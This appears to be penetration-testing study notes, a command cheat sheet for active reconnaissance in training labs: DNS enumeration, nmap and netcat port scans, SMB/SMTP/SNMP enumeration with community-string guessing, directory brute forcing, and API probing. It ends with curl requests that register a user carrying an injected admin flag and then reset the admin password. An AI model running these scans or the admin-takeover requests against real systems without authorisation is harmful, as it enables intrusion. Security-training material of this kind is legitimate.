
# Information Gathering Active

## DNS Enumeration

### host

```bash
for ip in $(cat list.txt); do host $ip.megacorpone.com; done

for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found"
```

### dnsenum

```bash
dnsenum megacorpone.com
```

### nslookup

```bash
nslookup -type=TXT info.megacorptwo.com 192.168.50.151
```

## Port Scanning

### nc

```bash
nc -nv -z -w 1 192.168.224.151 1-10000

nc -nv -z -w 1 -u 192.168.224.151 100-200
```

### nmap

#### host discovery

```bash
nmap -sn 192.168.50.1-254 -oG ping-sweep.txt
nmap -sn 172.16.33.0/24
grep Up ping-sweep.txt | cut -d " " -f 2

sudo nmap -p 80 --script http-title.nse  192.168.224.0/24 -oN http-title-N.txt
```

#### port scanning

```bash
sudo nmap -sS 192.168.50.149
nmap -sT -sU 192.168.50.149

for a in $(seq 1 500 65535); do let b=$((a+499)); sleep 2; echo ---$a-$b---; sudo nmap -p $a-$b 192.168.208.211 | grep open; done
```

#### service detection

The -A option includes version detection and script scanning, making -sC and -sV unnecessary.

```bash
nmap -p- -A 172.16.33.35 -oN nmap.txt
```

##### SMB

```bash
sudo nmap -p 445 192.168.239.0/24 -oG smb.txt

cat smb.txt | grep open | cut -d " " -f 2 | while read ip; do enum4linux "$ip"; done
```

##### SMTP

```bash
sudo nmap -p 25 192.168.239.0/24 -oG smtp.txt

nc -nv 192.168.239.8 25
vrfy root
```

##### SNMP

| OID | Description |
| --- | ----------- |
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports |

```bash
sudo nmap -sU --open -p 161 192.168.239.0/24 -oG snmap.txt

echo public > community
echo private >> community
echo manager >> community
cat snmap.txt | grep snmp | cut -d " " -f 2 > snmap_ips
onesixtyone -c community -i snmap_ips

snmpwalk -v 2c -c public 192.168.239.151 1.3.6.1.2.1.25.4.2.1.2\n
snmpwalk -v 2c -c public -Oa 192.168.239.151 1.3.6.1.2.1.2.2.1.2\n
```

### Test-NetConnection

```powershell
Test-NetConnection -Port 445 192.168.50.151
```

### powershell

```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

## Directory Brute Force

### dirsearch

```bash
dirsearch -u http://
```

### gobuster

```bash
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

## API Enumeration

robots.txt and sitemap.xml

### gobuster

```bash
cat pattern
{GOBUSTER}/v1
{GOBUSTER}/v2

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt


```

### drill down API

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
